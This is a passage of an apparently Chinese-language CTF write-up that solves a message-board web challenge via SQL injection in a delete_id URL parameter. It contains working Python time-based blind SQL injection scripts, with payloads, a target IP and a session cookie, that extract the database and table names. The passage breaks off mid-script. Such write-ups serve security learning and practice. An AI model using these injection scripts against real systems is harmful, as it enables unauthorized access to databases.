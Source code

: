 ![](https://img.blueflame.org.cn/images/2020/02/week3-web-10.png)</p>

<p>得到flag</p>

![](https://img.blueflame.org.cn/images/2020/02/week3-web-6.png)</p>

<h3>Cosmos的留言板-2</h3>

<p>我可能只会留言板。。。 </p>

<p>刚打开是个登陆界面，这次的留言板需要登陆，用户名和密码只能是数字和字母，无法注入。登进去以后，很简单的界面，登出是退出登陆，没什么用，除此以外只有留言功能，留言没有过滤任何字符，但是<>之类的符号在html里被转化为了字符实体，那就没有什么办法进行XSS注入（就算可以也无法攻击到管理员，拿不到cookie），那么想要获取管理员的账户就只能通过sql注入，从数据库中获得。  </p>

![](https://img.blueflame.org.cn/images/2020/02/week3-web-4.png)</p>

<p>上周的留言板是有个id可以注入，这周似乎没有什么能注入的地方。在留言那尝试了半天没啥进展，突然发现删除留言时，会在url里显示出删的留言的id。  </p>

![](https://img.blueflame.org.cn/images/2020/02/week3-web-2.png)</p>

<p>然后就尝试了一下注入，发现什么都没过滤，连'和#都不需要用（用了反而报错。。。），还是用上周的脚本改了一下<del>（上周我为什么要时间盲注。。。)</del> 其他基本不变就是多加了个cookie。</p>

<pre class="wp-block-code"><code lang="python" class="language-python">#爆库名
import requests
import time

flag = ''
maxlength = 50
host = 'http://139.199.182.61:19999/index.php?method=delete&delete_id=28'
cookie = {
"PHPSESSID":"fsgq6msbpn8ue3s622bvuhvrfj"
}
for i in range(1, 8):
    for x in range(32, 127):
        payload = " and (if(ascii(substring((database()),{0},1))={1},sleep(3),null))"
        url = (host + payload.format(i, x))
        print(url)
        start_time = time.time()
        r = requests.get(url, cookies=cookie)
        if time.time() - start_time > 2:
            flag += chr(x)
            print(flag)
            break
</code></pre>

<p>得到库名<code>babysql</code></p>

<pre class="wp-block-code"><code lang="python" class="language-python">#爆表名
import requests
import time

flag = ''
maxlength = 10
host = 'http://139.199.182.61:19999/index.php?method=delete&delete_id=28'
cookie = {
"PHPSESSID":"fsgq6msbpn8ue3s622bvuhvrfj"
}
for i in range(1, maxlength):
    for x in range(32,127):
        payload = " and (if(ascii(substring((Select table_name from information_schema.tables where table_schema='babysql'limit 1,1),{0},1))={1},sleep(5),null))%23"
        url = (host + payload.format(i,x))
        print(url)
        start_time=time.time()
        r = requests.get(url, cookies=cookie)
        if time.time() - start_time > 4:
            flag += chr(x)